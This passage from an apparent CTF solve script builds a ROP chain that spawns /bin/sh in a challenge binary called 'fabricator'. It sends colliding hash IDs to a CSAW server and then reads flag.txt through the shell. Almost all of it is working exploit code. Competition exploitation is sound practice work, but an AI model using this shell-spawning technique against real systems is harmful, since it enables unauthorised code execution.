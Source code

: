 ```python
pop_rax = p64(0x000000000041c0c4)
pop_rdx = p64(0x0000000000452856)
syscall = p64(0x000000000047ba25)
bin_sh  = p64(0x00000000006c4580 + 64 + 8)

payload  = front_padding
payload += pop_rax
payload += p64(0x3b)
payload += pop_rdi
payload += bin_sh
payload += pop_rsi
payload += p64(0)
payload += pop_rdx
payload += p64(0)
payload += syscall

back_padding = b'Z'*(144-len(payload))
payload += back_padding
###########

### Solve the "Crypto" part
ids = collide(payload)

### Choose a target 
if args.GDB:
    conn = gdb.debug('./fabricator', gdbscript=(''
         +'break validHashes\n'
         +'break runGame\n'
         +'break *0x00400dae\n'#just put success message
         +'break *0x400dc8\n'#just copied id1 to stack
         +'c\n'#start automatically
        )
    )
elif args.LOCAL:
    conn = process('./fabricator')
else:
    conn = remote('web.red.csaw.io',5012)

### Interact ###
print(conn.recvuntil('>'))
print(ids[0])
conn.send(ids[0])

print(conn.recvuntil('>'))
print(ids[1])
conn.send(ids[1])
################

### WIN ###
print(conn.recv().decode())

print('ls')
conn.sendline('ls')

print(conn.recv().decode())

print('cat flag.txt')
conn.sendline('cat flag.txt')

print(conn.recv().decode())
print()

conn.close()
```
